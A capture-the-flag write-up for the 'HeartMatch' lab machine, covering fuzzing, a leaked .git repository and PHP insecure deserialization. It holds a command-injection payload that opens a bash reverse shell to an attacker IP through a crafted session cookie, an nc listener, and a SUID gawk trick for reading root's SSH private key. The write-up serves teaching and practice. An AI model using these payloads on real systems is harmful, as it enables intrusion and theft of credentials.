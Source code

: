 ```yaml
---
title: 'HeartMatch Writeup'
date: '2025-05-12'
tags: ['Insecure Desseralization', 'Linux', 'Hacking Club']
draft: false
summary: 'The HeartMatch machine is vulnerable to insecure desseralization and privilege escalation trough SUID'
images: ['/static/images/hearthmatch-writeup-images/default.png']
authors: ['default']
---
```


![heartmatch](/static/images/heartmatch-writeup-images/default.png)

---

## Port Scanning

```bash
export IP=172.16.8.163
nmap -sV -sC -p- -v $IP --min-rate 3000
```

![heartmatch](/static/images/heartmatch-writeup-images/image.png)

Only the ports 22 (SSH), 80 (HTTP) and 5173 (unkown) were found opened.

## Enumeration

```python
curl -I 172.16.8.163
```

![heartmatch 1](/static/images/heartmatch-writeup-images/image1.png)

When we tried to get the Headers, the application redirects to **heartmatch.hc** , we need to put this domain on our local DNS

```python
sudo vim /etc/hosts
```

![heartmatch 2](/static/images/heartmatch-writeup-images/image2.png)

![heartmatch 3](/static/images/heartmatch-writeup-images/image3.png)

Now we can access the application.

### Fuzzing

```python
ffuf -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -u http://heartmatch.hc/FUZZ -fw 54
```

![heartmatch 4](/static/images/heartmatch-writeup-images/image4.png)

Somehow, the application is leaking internal files, like **hosts** and **passwd.**

Checking the **/etc/hosts** file, we found a subdomain called `backoffice-admin-hm.heartmatch.hc`.

We need to add this subdomain in our local DNS too.

```python
sudo vim /etc/hosts
```

![heartmatch 5](/static/images/heartmatch-writeup-images/image5.png)

No we can access the subdomain

![heartmatch 6](/static/images/heartmatch-writeup-images/image6.png)

I registered a new account and log in into the application

![heartmatch 7](/static/images/heartmatch-writeup-images/image7.png)

![heartmatch 8](/static/images/heartmatch-writeup-images/image8.png)

I checked the existing routes and nothing was found in this application too, so we are going to fuzzing part2.

```python
ffuf -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -u http://backoffice-admin-hm.heartmatch.hc/FUZZ
```

![heartmatch 9](/static/images/heartmatch-writeup-images/image9.png)

Ffuf found a git exposed.

Using the tool git-dumper we downloaded all the files

[https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```python
git-dumper http://backoffice-admin-hm.heartmatch.hc/.git/ src
```

![heartmatch 10](/static/images/heartmatch-writeup-images/image10.png)

With the source code of the application in hands, we can start de code review.

### Code Review

The PHP application was using object deserialization with the **UserSession** class, which included the following magic method:

![heartmatch 11](/static/images/heartmatch-writeup-images/image11.png)

The `__wakeup()` method is automatically called when an object is deserialized. The developer intended to validate the plan and then use **system()** to save it to a file named after the username.

**The issue**

The **username** field was not sanitized, which made it possible to inject arbitrary shell commands.

Even though plan had to be "free" or "premium", nothing prevented username from containing dangerous input. For example:

```python
$username = "test.txt; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'; #";
```

This causes the following system command to be executed:

```python
system("echo premium > /tmp/test.txt; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'; #.txt");
```

In other words, after writing the plan to a file, the system executes the injected reverse shell command.

### Proof of concept (POC)

I crafted the following PHP object:

```python
<?php
class UserSession {    public $username = "attacker.txt; bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'; #";    public $plan = "premium";}
echo base64_encode(serialize(new UserSession()));
```

![heartmatch 19](/static/images/heartmatch-writeup-images/falha1.png)

---

## Foot Hold

After running our poc, it will generate a serialized base64 encoded and sent as the value of the **user_data** cookie.

![heartmatch 12](/static/images/heartmatch-writeup-images/image12.png)

Now we need to start our listener

```python
nc -lnvp 1337
```

After that, we send our payload into our cookie session and reload the page, so it can trigger the insecure desseralization

![heartmatch 13](/static/images/heartmatch-writeup-images/image13.png)

![heartmatch 14](/static/images/heartmatch-writeup-images/image14.png)

---

## Privillege Escalation

**Gawk** binary with SUID permission

```python
find / -type f -perm -04000 -ls 2>/dev/null
```

![heartmatch 15](/static/images/heartmatch-writeup-images/image15.png)

https://gtfobins.github.io/gtfobins/gawk/

With this binary we can read any file in the server, so we can use to read the final flag, or get the root ssh key.

```python
LFILE=root/.ssh/id_rsa
/usr/bin/gawk '//' "$LFILE"
```

![heartmatch 16](/static/images/heartmatch-writeup-images/image16.png)

```python
vim id_rsa
chmod 600 id_rsa
ssh root@172.16.8.163 -i id_rsa
```

![heartmatch 20](/static/images/heartmatch-writeup-images/falha2.png)

---

## Proof

![heartmatch 17](/static/images/heartmatch-writeup-images/image17.png)
